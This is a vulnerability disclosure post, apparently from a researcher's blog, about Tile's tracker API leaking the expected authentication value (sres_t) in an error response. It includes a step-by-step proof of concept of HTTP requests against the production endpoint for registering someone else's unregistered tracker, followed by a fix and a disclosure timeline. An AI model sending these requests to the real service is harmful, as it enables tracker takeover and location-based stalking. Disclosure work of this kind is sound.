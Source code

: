 ```yaml
---
title: 'Tile - Unauthorized Registration of a Genuine Tracker'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an attacker to register any unregistered Tile tracker to their account. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows an attacker to register any unregistered Tile tracker to their account.

# Vulnerability

It is possible to register an unregistered Tile tracker to an account without communicating with the tracker.

The endpoint `https://production.tile-api.com/api/v1/tiles/:tileUUID` excepts a valid auth triplet for the device.
An auth triplet consists of the three values `rand_t`, `rand_a`, and `sres_t`.
A valid auth triplet can only be obtained by communicating with a Tile tracker.
However, if the value `sres_t` is incorrect, the endpoint responds with the expected value.
This allows an attacker to bypass this check and add any Tile that is not yet associated with any account without actually communicating with the device.

For the attacker to exploit this vulnerability, they must have knowledge about the Tile UUID of a Tile tracker that is not registered to an account.

# Proof-of-Concept

Before registering a tracker to their account, the attacker needs a valid client UUID and use it to sign in to their account.
The attacker can create a valid client UUID by generating a random UUID and registering it with Tile by sending the following request:

```http
PUT https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7 HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]


registration_timestamp=1720090702959&app_id=android-tile-production&app_version=2.115.0.5050
```

Afterwards, they can sign in to their account with the following request:

```http
POST https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7/sessions HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]

email=********&password=********
```

Next, they can register a Tile tracker with the following request:

```http
POST https://production.tile-api.com/api/v1/tiles/:tileUUID HTTP/2.0
cookie: session=[...]
tile_client_uuid: [...]
content-type: multipart/form-data; boundary=BOUNDARY
[...]: [...]


--BOUNDARY
Content-Disposition: form-data; name="tile_uuid"

:tileUUID
--BOUNDARY
Content-Disposition: form-data; name="rand_a"

AAAAAAAAAAAAAAAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="rand_t"

BBBBBBBBBBBBBBAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="sres_t"

CCCCCC==
--BOUNDARY--
```

_In the request, every instance of `:tileUUID` must be replaced with the Tile UUID of a tracker that is not registered to an account._

In the request above, the auth triplet is incorrect.
The server correctly validates the auth triplet and denies the request.
This should ensure that only a user with physical proximity to the tracker is actually able to register the tracker.
However, the response contains the expected `sres_t` value.

```
Unable to authenticate tile No match sres_t value: calcSresT=1VALID==, sresT=CCCCCC==, randA=AAAAAAAAAAAAAAAAAAAAAA==, randT=BBBBBBBBBBBBBBAAAAAAAA==, tile_uuid=:tileUUID, client_uuid=[...]
```

Using the expected value, it is possible to register the tracker to the attacker's account without ever communicating to the tracker and getting a valid auth triplet.

```http
POST https://production.tile-api.com/api/v1/tiles/:tileUUID HTTP/2.0
cookie: session=[...]
tile_client_uuid: [...]
content-type: multipart/form-data; boundary=BOUNDARY
[...]: [...]

--BOUNDARY
Content-Disposition: form-data; name="tile_uuid"

:tileUUID
--BOUNDARY
Content-Disposition: form-data; name="rand_a"

AAAAAAAAAAAAAAAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="rand_t"

BBBBBBBBBBBBBBAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="sres_t"

1VALID==
--BOUNDARY--
```

# Fix

It is recommended to not leak the `sres_t` value in the error response.

# Timeline

- 2024-03-13: Contacted Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacted Tile's support asking for a status update
